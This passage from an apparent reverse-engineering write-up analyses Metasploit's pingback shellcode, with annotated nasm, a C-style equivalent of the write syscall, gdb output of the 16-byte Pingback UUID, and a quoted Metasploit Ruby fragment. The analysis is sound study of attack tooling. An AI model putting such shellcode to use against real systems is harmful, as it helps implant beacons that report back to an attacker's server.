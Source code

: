 ```nasm
; get the return address of the call, i.e. the address 0x4000da
pop rsi

; set RAX to 1 (sys_write)
xor rax,rax
inc rax

; invoke sys_write
syscalll

; jump to the address 0x4000ca
jmp 0x4000ca
```

The instructions above can be translated to the following code:

```cpp
write(
  RDI,    // file descriptor of the client socket
  RSI,    // pointer to the buffer to write (0x4000da)
  RDX     // value: 16; it will write 16 bytes
);

// jmp 0x4000ca
```

The buffer containing the bytes that the shellcode is going to send to the remote server is stored at the address `0x4000da`, which is the return address of the current `call`.

In particular, the bytes are the following:

```bash
(gdb) x/16xb 0x4000da
# 0x4000da:       0xe4    0x92    0xe3    0xc8    0xa4    0xbb    0x41    0x53
# 0x4000e2:       0xa8    0xfb    0x99    0x26    0xac    0x6c    0xd6    0x4c
```

Since it's 16 bytes, hence 32 hex digits, the resulting buffer can be represented by the following hex string:

```txt
e492e3c8a4bb4153a8fb9926ac6cd64c
```

This string represents the so-called `Pingback UUID` of the shellcode. The source code from metasploit contains a reference to this value:

```ruby
asm = %Q^
    ...
    send_pingback:
        push #{uuid_as_db.split(",").length} ; length of the PINGBACK UUID
        pop rdx
        call get_uuid_address         ; put uuid buffer on the stack
        db #{uuid_as_db}  ; PINGBACK_UUID
    ...
    ^
```
